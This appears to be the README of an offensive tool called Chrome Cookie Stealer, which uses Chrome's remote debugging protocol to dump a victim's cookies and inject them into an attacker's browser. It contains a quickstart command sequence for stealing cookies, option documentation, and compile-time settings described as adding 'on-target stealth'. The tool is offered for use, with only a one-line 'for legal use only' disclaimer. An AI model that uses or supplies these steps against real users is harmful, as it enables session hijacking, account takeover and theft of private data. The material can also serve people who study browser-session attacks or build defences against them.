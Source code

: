 Chrome Cookie Stealer (and injector)
====================================
Attaches to Chrome using its Remote DevTools protocol and
steals/injects/clears/deletes cookies.

Heavily inspired by
[WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut).

Cookies are dumped as JSON objects using Chrome's own
[format](https://chromedevtools.github.io/devtools-protocol/tot/Network/#type-Cookie).
The same format is used for cookies to be loaded.

For legal use only.

Features
--------
- Dump Chrome's cookies
- Inject dumped Cookies into (another instance of) Chrome
- Clear Chrome's cookies
- Defaults settable at compile time

Quickstart
----------
Steal a victim's cookies:
```sh
git clone https://github.com/magisterquis/chromecookiestealer.git
cd chromecookiestealer
go build
pkill Chrome
/Applications/Google\ Chrome.app/Contents/MacOS/Google\ Chrome --remote-debugging-port=9222 --restore-last-session # Varies by target
./chromecookiestealer -dump ./cookies.json
```

Inject into the attacker's local browser:
```sh
# Start Chrome with a debug port, as above.
./chromecookiestealer -clear -inject ./cookies.json
```

Usage
-----
```
Usage: chromecookiestealer [options]
Attaches to Chrome using the Remote DevTools Protocol (--remote-debugging-port)
and, in order and as requested:

- Dumps cookies
- Clears cookies
- Injects cookies
- Deletes selected cookies

Parameters for cookies to be deleted should be represented as an array of JSON
objects with the following string fields:

name   - Name of the cookies to remove.
url    - If specified, deletes all the cookies with the given name where domain
         and path match provided URL.
domain - If specified, deletes only cookies with the exact domain.
path   - If specified, deletes only cookies with the exact path.

Filenames may also be "-" for stdin/stdout.

Options:
  -chrome URL
    	Chrome remote debugging URL (default "ws://127.0.0.1:9222")
  -clear
    	Clear browser cookies
  -delete file
    	Name of file containing parameters for cookies to delete
  -dump file
    	Name of file to which to dump stolen cookies
  -inject file
    	Name of file containing cookies to inject
  -no-summary
    	Don't print a summary on exit
  -verbose
    	Enable verbose logging
```

Building
--------
`go build` should be all that's necessary.  The following may be set at
compile time with `-ldflags '-X main.Foo=bar'` for a touch more on-target
stealth.

Variable   | Description
-----------|------------
DumpFile   | Name of a file to which to dump cookies.  Implies `-dump`
InjectFile | Name of a file from which to inject cookies.  Implies `-inject`
DeleteFile | Name of a file with parameters describing cookies to delete.  Implies `-delete`
DoClear    | If set to any value, implies `-clear`

None of the above are set by default.

The Chrome DevTools Protocol is a bit of a moving target.  It may be necessary
to use a newer version of the
[chromedp](https://pkg.go.dev/github.com/chromedp/chromedp) and
[cdproto](https://pkg.go.dev/github.com/chromedp/cdproto) libraries should this
program stop working.  This can be done with
```sh
go get -u -v all
go mod tidy
go build
```
which could well have the side-effect of breaking everything else.

`¯\_(ツ)_/¯`
